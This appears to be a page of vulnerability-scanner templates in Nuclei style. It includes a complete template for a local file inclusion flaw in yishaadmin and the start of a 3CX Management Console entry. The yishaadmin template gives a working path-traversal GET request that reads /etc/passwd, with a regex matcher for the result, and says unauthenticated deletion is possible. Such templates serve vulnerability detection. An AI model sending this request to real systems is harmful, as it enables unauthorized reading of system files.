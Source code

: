 **Type - regex**

- regex
  1. root:.\*:0:0:

**Type - status**

- status
  1. 200

---

# yishaadmin - Local File Inclusion

## Description

- yishaadmin is vulnerable to local file inclusion via the "/admin/File/DownloadFile" endpoint and allows files to be downloaded, read or deleted without any authentication.
- severity - high
- tags - lfi,yishaadmin,huntr

## Requests

### Step - 1

```
GET /admin/File/DownloadFile?filePath=wwwroot/..././/..././/..././/..././/..././/..././/..././/..././etc/passwd&delete=0 HTTP/1.1
Host: {{Hostname}}

```

### Matchers

**Type - regex**

- regex
  1. root:.\*:0:0:

**Type - status**

- status
  1. 200

---

# 3CX Management Console - Local File Inclusion

## Description

- 3CX Management Console is vulnerable to local file inclusion.
- severity - high
- tags - 3cx,lfi,voip
